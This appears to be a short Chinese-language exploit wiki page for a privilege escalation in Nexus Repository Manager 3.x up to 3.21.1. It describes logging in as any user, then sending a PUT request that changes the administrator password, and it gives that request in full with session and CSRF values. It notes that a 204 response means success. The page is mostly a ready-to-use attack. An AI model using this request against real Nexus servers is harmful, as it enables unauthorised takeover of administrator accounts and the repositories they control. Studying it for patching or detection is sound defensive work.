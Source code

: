 <languages /> <translate>

漏洞影響
--------

</translate>

    Nexus 3.x OSS / Pro <= 3.21.1

<translate>

前提條件
--------

</translate> <translate> 需要任意賬戶權限。 </translate>

<translate>

漏洞利用
--------

</translate> <translate> 登錄任意用戶後修改 NXSESSIONID，發送請求包修改管理員賬號密碼 </translate>

    PUT /service/rest/beta/security/users/admin/change-password HTTP/1.1
    Host:
    accept: application/json
    User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36
    NX-ANTI-CSRF-TOKEN: 0.6080434247960143
    Content-Type: text/plain
    Origin: http://139.198.174.173:8081
    Cookie: NX-ANTI-CSRF-TOKEN=0.6080434247960143; NXSESSIONID=76b37c99-046c-47a9-ba7d-fd4cfa33b7ff
    Content-Length: 11

    data=123456

<translate> 返回204則修改成功 </translate>

<translate>

參考
----

</translate> <https://short.pwnwiki.org/?c=pqCGju>